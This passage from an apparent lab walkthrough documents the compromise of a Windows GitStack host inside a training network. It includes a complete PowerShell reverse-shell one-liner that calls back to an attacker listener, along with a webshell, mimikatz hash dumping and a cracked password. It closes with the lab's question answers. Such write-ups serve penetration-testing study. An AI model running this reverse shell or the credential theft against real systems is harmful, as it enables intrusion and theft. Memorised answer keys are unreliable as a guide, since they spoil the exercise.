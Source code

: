 * Running the exploit, this executes the ```whoami``` command and we can see that we are 'nt authority\system' user.

* As the backdoor has been uploaded, we can use ```curl``` to send POST requests for RCE instead of running the script again.

* We can begin with basic enumeration now.

* We also need to check if the target is allowed to connect to machines outside the network - we can use ```tcpdump``` and ```ping``` for this.

* We find out that the target cannot communicate with external machines.

* We can use the SSH session we have on compromised webserver as root, and upload ```nc``` binary to catch shell from target (10.200.81.150)

* We need to edit the ```firewall-cmd``` service on the root SSH session such that it allows port 23337 for connection.

* After setting up ```nc``` listener, we can now execute a Powershell reverse-shell one-liner, [URL-encoded](https://www.urlencoder.org/), and execute it using the webshell uploaded earlier:

```ps
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.81.200',23337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

* Now, we get RCE as system user on our SSH session in webserver as root.

* We can stabilise our presence by adding a user account, then using the open ports on this machine, we can connect via RDP on port 3389 using ```xfreerdp```, or WinRM on port 5985 with ```evil-winrm```.

* Connecting over ```xfreerdp```, we can use '/drive' flag to share our folder with the target machine - we can get ```mimikatz``` from this share.

* Open ```cmd.exe``` as Administrator, and run ```mimikatz``` to dump the hashes.

* NTLM hash for user 'Thomas' can be cracked to give password "i<3ruby"

```markdown
1. Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network? - 2

2. In ascending order, what are the last octets of these host IPv4 addresses? - 100,150

3. Scan the hosts -- which one does not return a status of "filtered" for every port? - 150

4. Which TCP ports below port 15000, are open on the remaining target? - 80,3389,5985

5. Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability? - http

6. What is the name of the program running the service? - gitstack

7. Do these default credentials work (Aye/Nay)? - Nay

8. There is one Python RCE exploit for version 2.3.10 of the service. What is the EDB ID number of this exploit? - 43777

9. Look at the information at the top of the script. On what date was this exploit written? - 18.01.2018

10. Bearing this in mind, is the script written in Python2 or Python3? - Python2

```